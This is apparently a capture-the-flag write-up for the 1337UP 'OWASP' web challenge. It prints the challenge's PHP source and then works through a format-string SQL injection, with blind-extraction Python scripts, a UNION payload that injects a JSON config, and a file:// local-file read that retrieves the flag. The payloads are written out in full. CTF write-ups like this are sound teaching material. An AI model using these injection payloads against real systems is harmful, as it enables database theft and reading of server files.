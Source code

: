```yaml
---
title: "1337UP web/OWASP"
publishDate: "20 Nov 2023"
description: "Author: cpp.dog"
tags: ["web", "1337up"]
---
```


#### Description

Everyone knows the OWASP top 10 are vulnerable, I guess this might be too 💀

Author: Ivars Vids

#### Code inspection

Sourceless.

P.S.
After CTF has ended, some participants shared the dirbusted source file.
`https://owasp.ctf.intigriti.io/search.php.save`

Please note that I didn't know about this file, because dirbusting is generally prohibited in most CTFs, unless it is explicitly stated in the challenge description. 

So I was desperately guessing every possible shit out there.
```php
<?php
require_once('db.php');
$flag = file_get_contents('/flag.txt');
@include('header.php');

//build sql query
$sql = 'select * from owasp';
$sql_where = '';
foreach ($_REQUEST as $field => $value){
  if ($sql_where) $sql_where = " AND $sql_where";
  $sql_where = "position(%s in $field) $sql_where";
  try {
    $sql_where = @vsprintf($sql_where, Array("'". sqlesc($value) . "'"));
  } catch (ValueError | TypeError $e) {
    $sql_where = '';
  }
  if (preg_match('/[^a-z0-9\.\-_]/i', $field)) die ('Hacking attempt!');
}
$sql .= ($sql_where)?" where $sql_where":'';

foreach(sqlquery($sql) as $row){
  @include('row.php');
  $config = json_decode($row['config'], true);
}

if (isset($config['flag']) && $config['flag']){
  $url = $config['url'];
  // no printer manufacturer domains
  if (preg_match('/canon|epson|brother|hp|minolta|sharp|dell|oki|samsung|xerox|lexmark/i', $url)) die('Looks like a printer!');
//  $url = 'https://www.youtube.com/watch?v=2U3Faa3DejQ';
  if (filter_var($url, FILTER_VALIDATE_URL)) {
    $http_resp = file_get_contents($url);
    var_dump($http_resp);
    if ($flag === $http_resp){
      die('Yes! You got the right flag!');
    }
    die('Wrong flag');
  }
  else {
    die('URL does not start with HTTP or HTTPS protocol!');
  }
}

@include('footer.php');
```

#### Fuzzing

We don't see much of the possible attack vectors on the site, the only interesting thing at quick glance is search field. Which just GETs the search.php

`https://owasp.ctf.intigriti.io/search.php?title=1`

SQL injection is definitely the first thing to try here, so let's try something:

`https://owasp.ctf.intigriti.io/search.php?title='"/`

No errors are produced with this input. What if we add an another random query parameter?

`https://owasp.ctf.intigriti.io/search.php?title=%27%22%2F&abacaba=123`

And here we are, definitely an SQL injection

```py
Fatal error: Uncaught mysqli_sql_exception: Unknown column 'abacaba' in 'where clause' in /var/www/html/db.php:11 
Stack trace: 
#0 /var/www/html/db.php(11): mysqli->query('select * from o...') #1 /var/www/html/search.php(21): sqlquery('select * from o...') #2 {main} thrown in /var/www/html/db.php on line 11
```

After several attempts, we discovered that query string parameters must match the following regex pattern: `/[a-z0-9_-]/i`. Dots and spaces are replaced with underscores `_`. However, the `-` char is permitted, we can exploit it to comment out the rest of the query, which may reveal a portion of it and help us understand what to do next.

`https://owasp.ctf.intigriti.io/search.php?b=1&1=321&--=123`

```py
Fatal error: Uncaught mysqli_sql_exception: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ') AND position('321' in 1) AND position('1' in b)' at line 1 in /var/www/html/db.php:11 
Stack trace: 
#0 /var/www/html/db.php(11): mysqli->query('select * from o...') #1 /var/www/html/search.php(21): sqlquery('select * from o...') #2 {main} thrown in /var/www/html/db.php on line 11
```

So it adds `AND position('value' in key)` for every query parameter in reversed order. Interesting. Looks like we can try format string injection.

`https://owasp.ctf.intigriti.io/search.php?a=%1$s)  AND 0;--&id=1`

```py
Fatal error: Uncaught mysqli_sql_exception: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '1') AND 0;--' in a)' at line 1 in /var/www/html/db.php:11 
Stack trace: 
#0 /var/www/html/db.php(11): mysqli->query('select * from o...') #1 /var/www/html/search.php(21): sqlquery('select * from o...') #2 {main} thrown in /var/www/html/db.php on line 11
```

We were right about format string injection! It seems we need to prepend the format string with an opening parenthesis and prefix the second parameter with `in title)` in order to get something interesting for us.

`https://owasp.ctf.intigriti.io/search.php?id=(%1$s&title=in title) OR 0 AND POSITION(`

The payload above returns empty article set, now we can extract everything.
Upon iterating over the information_schema.tables, we found an additional table called `flag`, with column `flag`. Let's dump it!

```py
from cr3.web.brute import trie_brute
from cr3.regex.solver import solve

def callback(flag, c, _):
  return None, f"https://owasp.ctf.intigriti.io/search.php?id=(%1$s&title=in title) OR (SELECT COUNT(flag) FROM flag where HEX(SUBSTR(flag,{len(flag) + 1},1)) = HEX({hex(ord(c))})) > 0 AND POSITION("

flag = trie_brute(success="<h3>", pre_request_callback=callback)
```

`https://www.youtube.com/watch?v=dQw4w9WgXcQ`

And here we go, rickroll...

Well, we also found an additional column in article table named `config`. Let's dump it too.

```py
from cr3.web.brute import trie_brute
from cr3.regex.solver import solve

def callback(flag, c, _):
  return None, f"https://owasp.ctf.intigriti.io/search.php?id=(%1$s&title=in title) OR (SELECT GROUP_CONCAT(config) FROM owasp where HEX(SUBSTR(config,{len(flag) + 1},1)) = HEX({hex(ord(c))})) > 0 AND POSITION("

flag = trie_brute(success="<h3>", pre_request_callback=callback)
```

```json
{}, {"__proto__":{"flag": "https://www.youtube.com/watch?v=Ct6BUPvE2sM"}}, {}, {"flag":false}, {}, [], 1337, "1337UP", null
```

It's JSON and there's new youtube link with another rickroll. 
`https://www.youtube.com/watch?v=Ct6BUPvE2sM`

But what happens if we give it our own config, with something like this `{"flag":true}`?

`https://owasp.ctf.intigriti.io/search.php?id=(%1$s&title=in title) UNION SELECT 1,2,3, 0x7B22666C6167223A747275657D;-- AND POSITION(`

```py
Warning: Undefined array key "url" in /var/www/html/search.php on line 27

Deprecated: preg_match(): Passing null to parameter 
#2 ($subject) of type string is deprecated in /var/www/html/search.php on line 29
URL does not start with HTTP or HTTPS protocol!
```

Let's try passing this value: `{"flag":true,"url":"link-to-webhooks"}`.
`https://owasp.ctf.intigriti.io/search.php?id=(%1$s&title=in title) UNION SELECT 1,2,3, 0x7B22666C6167223A747275652C2275726C223A2268747470733A2F2F776562686F6F6B2E736974652F32623037613133312D646534362D343135332D626561662D343036633265353831396132227D;-- AND POSITION(`

```py
string(140) 
"This URL has no default content configured. View in Webhook.site." 
Wrong flag
```

Hmm, let's try LFI:
`https://owasp.ctf.intigriti.io/search.php?id=(%1$s&title=in title) UNION SELECT 1,2,3, 0x7B22666C6167223A747275652C2275726C223A2266696C653A2F2F2F666C61672E747874227D;-- AND POSITION(`

```py
string(40) 
"INTIGRITI{php_n4n0_5ql1_lf1_53cr37_fl46}" 
Yes! You got the right flag!
```

#### Flag
`INTIGRITI{php_n4n0_5ql1_lf1_53cr37_fl46}`